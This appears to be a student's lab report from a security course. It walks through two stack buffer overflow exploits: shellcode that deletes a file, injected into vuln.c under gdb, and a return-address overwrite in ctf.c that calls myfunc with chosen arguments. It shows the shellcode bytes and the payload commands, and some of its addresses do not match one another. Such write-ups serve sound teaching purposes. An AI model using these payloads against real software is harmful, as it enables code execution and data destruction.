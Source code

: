 *Name: Dinh Thi Thanh Vy*
*ID: 22110093*

# Lab 2: 
---
## Task 1: Inject code to delete file
**Source code: .asm file**

![alt text](./image/image-11.png)

**Run virtual environment by docker file**

![alt text](./image/image-12.png)

**Run file asm and get the shellcode**
Run: `nasm -g -f elf file_del.asm`; `ld -m elf_i386 -o file_del file_del.o`
Get shellcode: `for i in $(objdump -d file_del |grep "^ " |cut -f2); do echo -n '\x'$i; done;echo`
![alt text](./image/image-13.png)
- We have the shellcode for file_del file as follows:
`\xeb\x13\xb8\x0a\x00\x00\x00\xbb\x7a\x80\x04\x08\xcd\x80\xb8\x01\x00\x00\x00\xcd\x80\xe8\xe8\xff\xff\xff\x64\x75\x6d\x6d\x79\x66\x69\x6c\x65\x00`
--> We remove \xdummyfile because it is not meaningful hexadecimal code

**Stack Frame:**
![alt text](./image/image-14.png)

- Shell code: `36 bytes`
- Return address: `4 bytes`
--> placement code: `32 bytes`
Here, we will use the vuln.c program to trigger a buffer overflow

**Connect to gdb**
![alt text](./image/image-15.png)
- Break in this position to see the change
`b *0x0804846b`

- Run the program by using command:
>r $(python -c "print('\xeb\x13\xb8\x0a\x00\x00\x00\xbb\x7a\x80\x04\x08\xcd\x80\xb8\x01\x00\x00\x00\xcd\x80\xe8\xe8\xff\xff\xff\x64\x75\x6d\x6d\x79\x66\x69\x6c\x65\x00'+'a'*32+'\xff\xff\xff\xff')")

![alt text](./image/image-16.png)
--> We observe that the first 3 bytes still correspond to the shellcode, but starting from the 4th byte, which corresponds to the newline character 0x0a, the `strcpy` function terminates the string, causing the interruption.  

Observing the ASCII table, we need to avoid the following characters: 
- `0x00` because it marks the end of a string. 
- `0x09` because it's the tab character and would split the argument. 
- `0x0a` because it's the newline character and would also terminate the string.

Additionally, `0x0a` has a decimal value of 10, and upon reviewing the assembly code, we find:
![alt text](./image/image-17.png)

- Change file asm to this:
![alt text](./image/image-20.png)

- Get the shellcode again, we get
`\xeb\x14\x31\xc0\xb0\x08\x04\x02\xbb\x7b\x80\x04\x08\xcd\x80\xb8\x01\x00\x00\x00\xcd\x80\xe8\xe7\xff\xff\xff\x64\x75\x6d\x6d\x79\x66\x69\x6c\x65\x00\`

![alt text](./image/image-19.png)

- For now, we will set the bytes of the address to 0xff. The last used byte of the shellcode will be 0x0f to  prevent string termination and to identify the position of the return frame.

>r $(python -c "print('\xeb\x13\x31\xc0\xb0\x08\x04\x02\xbb\x7a\x80\x04\x08\xcd\x80\x31\xc0\xb0\x01\xcd\x80\xe8\xe8\xff\xff\xff\x64\x75\x6d\x6d\x79\x66\x69\x6c\x65\x**0f**'+'a'*32+'\xff\xff\xff\xff')")

![alt text](./image/image-22.png)

At this point, the program will likely report an error because it cannot find the address `0xffffffff`. 

- We need to set `0x0c` to `0x00` at the address `0xffffd66b` by using command: 
`set {unsigned char} 0xffffd66b = 0x00`

- we will replace the values of 0xffffffff with the address of the buffer, which is ffffd658, in the form of \x58\xd6\xff\xff. 
`set *0xffffd69c = 0xffffd658`

**The result will be:**
![alt text](./image/image-23.png)

**Continue runing the program to test out**

![alt text](./image/image-24.png)
- Dummyfile is still here. Look back at the assembly code!
`objdump -d file_del`

![alt text](./image/image-25.png)

As we can see, the dummyfile is **start from** `0xffffd672` **not from** `0x080407a` in C program!
- We need to set 0xffffd651 to point at that using command: 
`set *0xffffd661 = 0xffffd672`
![alt text](./image/image-26.png)
- continue running the program 
![alt text](./image/image-27.png)

-->Dummyfile is deleted. We've done.


## Task 2: Conduct attack on ctf.c
**Source code:**
![alt text](./image/image-30.png)

**Summarizing**
-->we need to find the address of the myfunc function and overwrite the Return Address of the vulnerable function's stack frame with this address:
`p=0x04081211; q=0x44644262`
`(buf[100] + ebp(4) + ReturnA(rewrite by the myfunc's address) + s + p + q)`
= `104(padding) + the myfunc's address + 4(padding) + p(value) + q(value)`
**Run the virtual environment by docker file**
![alt text](./image/image-32.png)
**Debug ctf.c and create ctf.out file:**
`gcc -g ctf.c -o ctf.out -fno-stack-protector -mpreferred-stack-boundary=2`
![alt text](./image/image-32.png)
**Get the myfunc's address by this command:**
`objdump -d ctf.out|grep myfunc`
![alt text](./image/image-33.png)
--> So we obtain the address of the myfunc funtion: `0804851b`

**Connect gdb and run by this command:**
`r $(python -c "print('a'*104+'\x1b\x85\x04\x08'+'a'*4+'\x11\x12\x04\x08'+'\x62\x42\x64\x44')")`
![alt text](./image/image-34.png)
--> It's not understand and stop running with the debug `0x61616161 in ??`
--> We need to set the exit function address in the Return Address of myfunc to return and continue running to get the value of variables p and q

**Get the exit's address**
`objdump -d ctf.out|grep exit`
![alt text](./image/image-35.png)
--> So we obtain the address of the exit: `080483e0`

**Connect gdb and run again by this command:**
`r $(python -c "print('a'*104+'\x1b\x85\x04\x08'+'\xe0\x83\x08\x04'+'\x11\x12\x04\x08'+'\x62\x42\x64\x44')")`
![alt text](./image/image-36.png)
--> We've done this lab
**Stack frame:**
![alt text](./image/image-29.png)